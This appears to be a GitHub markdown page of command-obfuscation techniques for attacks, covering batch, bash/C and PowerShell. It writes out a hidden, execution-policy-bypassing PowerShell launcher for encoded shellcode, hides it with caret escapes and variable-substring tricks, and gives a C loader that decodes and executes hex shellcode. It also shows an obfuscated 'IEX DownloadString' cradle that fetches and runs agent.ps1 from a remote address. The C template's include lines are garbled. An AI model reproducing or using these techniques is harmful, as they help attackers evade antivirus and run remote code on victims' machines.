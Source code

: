 <br />

# SIMPLE STRING OBFUSCATION TECNICS

<br /><br />

## batch

- string command to obfuscate<br />
`cmd.exe /c powershell.exe -nop -wind hidden -Exec Bypass -noni -enc $shellcode`<br />
The above string can be obfuscated using the **batch escape caracter** ^<br />

- string obfuscated<br />

      cm^d.e^xe /c po^w^er^shel^l.ex^e -n^op -w^i^nd h^idd^en -Ex^e^c B^yp^a^ss -no^n^i -en^c $shellcode

---

- string command to obfuscate<br />
`cmd.exe /c powershell.exe -nop -wind hidden -Exec Bypass -noni -enc $shellcode`<br />

- using one batch local variable to serve as our **master key** (varObj)

      @echo off
      SET varObj=abcdefghijlmnopqrstuvxzkyW0123456789ABCDEFGHIJLMNOPQRSTUVXZKYW
      %varObj:~3,1%%varObj:~12,1%%varObj:~4,1%.exe /c %varObj:~15,1%%varObj:~14,1%%varObj:~26,1%%varObj:~5,1%%varObj:~17,1%%varObj:~18,1%%varObj:~8,1%%varObj:~5,1%%varObj:~11,1%%varObj:~11,1%.exe -nop -%varObj:~26,1%%varObj:~9,1%%varObj:~4,1%%varObj:~4,1%%varObj:~5,1%%varObj:~13,1% -%varObj:~41,1%%varObj:~22,1%%varObj:~5,1%%varObj:~3,1% %varObj:~38,1%%varObj:~25,1%%varObj:~15,1%%varObj:~1,0%%varObj:~18,1%%varObj:~18,1% -noni -%varObj:~5,1%%varObj:~13,1%%varObj:~3,1% $shellcode
      exit


- Description of varObj master_key:<br />
https://github.com/r00t-3xp10it/hacking-material-books/blob/master/obfuscation/pedro-Wandoelmo-key.md
      

---

<br />

## bash

- encoding shellcode in **C** to **ANCII**

      \x8b\x5a\x00\x27\x0d\x0a  <-- C shellcode

      8b5a00270d0a              <-- ANCII shellcode


- parsing shellcode data

      cat shellcode.txt | tr -d '\\' | tr -d 'x'

- template C

      #include
      #include
      #include
      #include
      #include
      #include
      #include
      <stdio.h>
      <stdlib.h>
      <unistd.h>
      <string.h>
      <windows.h>
      <tchar.h>
      <stdlib.h>

      void exec_shellcode(unsigned char *shellcode)
      {
      int (*funct)();
      funct = (int (*)()) shellcode;
      (int)(*funct)();
      }

      // return pointer to shellcode
      unsigned char* decode_shellcode(unsigned char *buffer, unsigned char *shellcode, int size)
      {
      int j=0;
      shellcode=malloc((size/2));
      int i=0;
      do
      {
      unsigned char temp[3]={0};
      sprintf((char*)temp,”%c%c”,buffer[i],buffer[i+1]);
      shellcode[j] = strtoul(temp, NULL, 16);
      i+=2;
      j++;
      } while(i<size);
      return shellcode;
      }
      int main (int argc, char **argv)
      {
      unsigned char *shellcode;
      unsigned char buffer[]=
      “fce8890000006089e531d2648b5230”
      “8b520c8b52148b72280fb74a2631ff”
      ... SNIP ...
      “b5a25668a695bd9dffd53c067c0a80”
      “fbe07505bb4713726f6a0053ffd5”;
      int size = sizeof(buffer);
      shellcode = decode_shellcode(buffer,shellcode,size);
      exec_shellcode(shellcode);
      }



---

<br />

## powershell

- string command to obfuscate<br />
`cmd.exe /c powershell.exe -nop -wind hidden -Exec Bypass -noni -enc $shellcode`<br />
The above string can be obfuscated using the **powershell escape caracter** `<br />

- string obfuscated<br />

      cm`d.e`xe /c po`w`er`shel`l.ex`e -n`op -w`i`nd h`idd`en -Ex`e`c B`yp`a`ss -no`n`i -en`c $shellcode

---

- string command to obfuscate<br />
`powershell.exe IEX (New-Object Net.WebClient).DownloadString('http://192.168.1.71/agent.ps1')`<br />
The above string can be obfuscated using **powershell escape caracters** ` and + <br />

- string obfuscated<br />

      $get = New-Object "N`et`Web`Cl`ie`nt"
      p`owe`r`she`l`l.exe IEX ($get).D`ow`n`loa`dSt`rin`g('h'+'t'+'tp'+':'+'//'+'192.168.1.71/agent.ps1')

---

<br />
